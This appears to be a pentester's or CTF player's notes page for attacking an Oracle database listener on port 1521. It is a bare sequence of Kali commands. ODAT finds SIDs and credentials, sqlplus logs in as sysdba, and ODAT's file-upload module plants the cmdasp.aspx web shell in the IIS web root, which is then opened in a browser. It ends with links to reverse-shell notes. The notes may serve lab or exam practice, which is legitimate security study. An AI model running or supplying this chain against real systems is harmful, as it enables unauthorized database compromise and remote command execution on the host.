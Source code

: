 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
sudo apt install odat
```

```bash - kali
sudo odat all -s $TARGET -p 1521
```

found sids:
EXAMPLE1
EXAMPLEDB

found creds:
$USER : $PASSWORD

```bash - kali
sudo apt install sqlplus
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1
```

```bash - kali
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

```bash - kali
sqlplus $USER/$PASWORD@$TARGET:1521/EXAMPLE1
```

```oracle - sql
select * from user_role_privs;
```

```oracle - sql
exit
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1 as sysdba
```

```oracle - sql
select * from user_role_privs;
```

```bash - kali
odat all -s $TARGET -d XE -U $USER -P $PASSWORD --sysdba
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "test.txt" "/home/kali/Desktop/test.txt" 
```

```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "cmdasp.aspx" "/home/kali/Desktop/cmdasp.aspx"
```

```html - firefox
firefox http://$TARGET/cmdasp.aspx
```

![[rlwrap]]

[[1._Reverse Shells (WIN)#Stageless Payloads]]

